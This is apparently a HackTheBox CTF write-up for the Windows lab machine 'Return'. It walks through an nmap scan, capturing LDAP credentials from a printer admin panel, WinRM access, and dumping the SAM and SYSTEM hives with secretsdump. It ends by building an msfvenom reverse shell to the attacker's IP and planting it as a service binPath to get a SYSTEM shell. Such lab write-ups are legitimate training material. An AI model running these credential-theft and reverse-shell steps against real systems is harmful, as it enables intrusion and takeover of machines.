- Machine Name: Return
- OS Type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Wed Apr 23 10:43:25 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up, received reset ttl 127 (0.30s latency).
Scanned at 2025-04-23 10:43:26 IST for 177s
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-23 05:33:39Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m33s
| smb2-time: 
|   date: 2025-04-23T05:34:43
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 31931/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 54836/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 26260/udp): CLEAN (Failed to receive data)
|   Check 4 (port 40628/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 23 10:46:23 2025 -- 1 IP address (1 host up) scanned in 177.80 seconds
```

## Enumeration

### Port 80/HTTP

port 80 is running http web server, let’s open it in browser 



it’s Printer Admin panel, let’s check settings for it



so it contains username and password but password is not visible



inspecting the element we found that the input type is text and the default value is ********* means password is not masked, another interesting thing i  found is server address and port now the port is 389 (LDAP) also the update button looks interesting, now may be it is making LDAP request to the specified server! to test this let’s start nc listener on port 389 using `rlwrap -r nc -nvlp 389` and specify our kali machine’s ip in server address field click on update



we found possible password for svc-printer user, let’s confirm this via netexec

```bash
netexec smb 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```



Yes it is!, let’s enumerate users on the machine via `—users` option

```bash
netexec smb 10.10.11.108 -u svc-printer -p '1edFg43012!!' --users
```



Ok so there’s only 2 users svc-printer and Administrator, let’s check if we have winrm access or not

```bash
netexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```



netexec said PWNED i heard “Access Granted!”

```bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```



starting post-enum i’ll first check for what privileges svc-printer has using `whoami /priv` command



here we found 2 privileges interesting

1. SeBackupPrivilege: to dump sam and system hive extract administrator’s NTLM hash and psexec  as administrator
2. SeLoadDriverPrivilege: We can load malicious driver which should execute as system and we’ll get the shell

let’s go for 1st path, we’ll save the sam and system hive using reg save

```bash
reg save hklm\sam \users\svc-printer\documents\sam.save
```

and for system hive

```bash
reg save hklm\system.save \users\svc-printer\documents\system.save
```



download both files using `download` command



let’s use impacket-secretsdump to dump NTLM hash from sam database

```bash
impacket-secretsdump -system system.save -sam sam.save LOCAL
```



let’s use administrator’s hash to psexec to machine



but it didn’t gave us the  access, i also tried to exploit SeLoadDriverPrivilege i didn’t find way to escalate the privs.

then i checked the user is member of **Server Operators** group

 

### Server Operator group

The **Server Operators** group is a built-in security group in Windows Server environments. Members of this group are granted specific administrative privileges that allow them to perform server-related tasks without having full administrative rights. This group is primarily designed for delegated server management.

**Key Privileges of Server Operators**

Members of the **Server Operators** group have the following privileges:

1. **Start and Stop Services**:
    - They can start, stop, and pause services on the server, which is crucial for server maintenance and troubleshooting.
2. **Manage Shared Resources**:
    - Server Operators can create, modify, and delete shared folders and manage printer shares, allowing them to administer shared resources effectively.
3. **Backup and Restore Operations**:
    - Members can back up files and restore files from backup, making it easier to manage data recovery processes.
4. **Log on Locally**:
    - Members have the ability to log on locally to the server, which allows them to directly manage the server through its console.
5. **Manage Local Users and Groups**:
    - They can add or remove users from local groups and manage local accounts, which is important for user management tasks.

member of server operators group can modify the services, but i got error while running `sc query` then i decided to  go for blind move and i search from VMware service (vmtools)

```bash
sc qc vmtools
```



nice let’s create a malicious reverse shell exe using msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=445 -f exe -o rev.exe
```



transfer the rev.exe to target machine and edit the vmtools service to set binPath  to rev.exe (in this case it’s C:\temp\rev.exe)



now let’s  check if the service binPath is changed or not using `sc  qc vmtools`



start netcat listener on port 445 - `rlwrap -r nc  -nvlp 445` 

and then stop and start the service and you’ll get the rev shell as system

```bash
sc stop vmtools

sc start vmtools
```

